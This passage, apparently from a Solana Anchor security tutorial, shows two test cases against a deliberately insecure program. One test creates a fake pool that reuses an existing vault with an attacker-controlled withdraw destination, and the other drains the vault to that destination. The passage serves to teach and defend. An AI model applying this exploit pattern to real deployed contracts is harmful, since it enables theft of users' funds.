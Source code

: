 After that, there are two more tests to show how the instructions are vulnerable to exploit.

The first test invokes the `initialize_pool` instruction to create a "fake" `pool` account using the same `vault` token account, but a different `withdraw_destination`.

The second test withdraws from this pool, effectively stealing funds from the vault.

```tsx
it("Insecure initialize allows pool to be initialized with wrong vault", async () => {
  await program.methods
    .initializePool(authInsecureBump)
    .accounts({
      pool: poolInsecureFake.publicKey,
      mint: mint,
      vault: vaultInsecure.address,
      withdrawDestination: withdrawDestinationFake,
      payer: walletFake.publicKey,
    })
    .signers([walletFake, poolInsecureFake])
    .rpc();

  await new Promise((x) => setTimeout(x, 1000));

  await spl.mintTo(
    connection,
    wallet.payer,
    mint,
    vaultInsecure.address,
    wallet.payer,
    100,
  );

  const account = await spl.getAccount(connection, vaultInsecure.address);
  expect(Number(account.amount)).to.equal(100);
});

it("Insecure withdraw allows stealing from vault", async () => {
  await program.methods
    .withdrawInsecure()
    .accounts({
      pool: poolInsecureFake.publicKey,
      vault: vaultInsecure.address,
      withdrawDestination: withdrawDestinationFake,
      authority: authInsecure,
      signer: walletFake.publicKey,
    })
    .signers([walletFake])
    .rpc();

  const account = await spl.getAccount(connection, vaultInsecure.address);
  expect(Number(account.amount)).to.equal(0);
});
```
